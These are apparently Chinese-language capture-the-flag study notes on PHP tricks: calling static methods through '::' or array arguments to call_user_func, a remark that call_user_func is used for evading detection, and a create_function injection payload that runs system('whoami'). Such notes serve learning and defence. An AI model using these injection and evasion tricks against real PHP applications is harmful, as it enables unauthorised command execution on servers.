 [https://www.freebuf.com/articles/system/242482.html](https://www.freebuf.com/articles/system/242482.html)

[https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE)

## 静态调用方法

两种方式

通过 `::` 访问

```php
$ctfshow::getFlag();
```

通过 `call_user_func($_POST['ctfshow'])` 以数组形式调用静态方法

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
```

[https://www.php.net/manual/zh/language.oop5.static.php](https://www.php.net/manual/zh/language.oop5.static.php)

## call_user_func()

```php
call_user_func(callable $callback, mixed ...$args): mixed
```

调用回调函数, 通常用来做免杀, 不过也可以调用类里面的方法

静态方法

```php
call_user_func('myclass::static_method')
```

传递数组 (动态/静态)

```php
call_user_func(array('myclass', 'static_method'));

call_user_func(array(new myclass(), 'dynamic_method'));
```

## create_function()

```php
create_function(string $args, string $code): string
```

创建匿名函数, 不过这个比较特别, 第一个位置传递的是匿名函数的参数 (有时候可以绕过过滤)

闭合括号执行任意代码

```php
create_function('', "system('whoami');//");
```
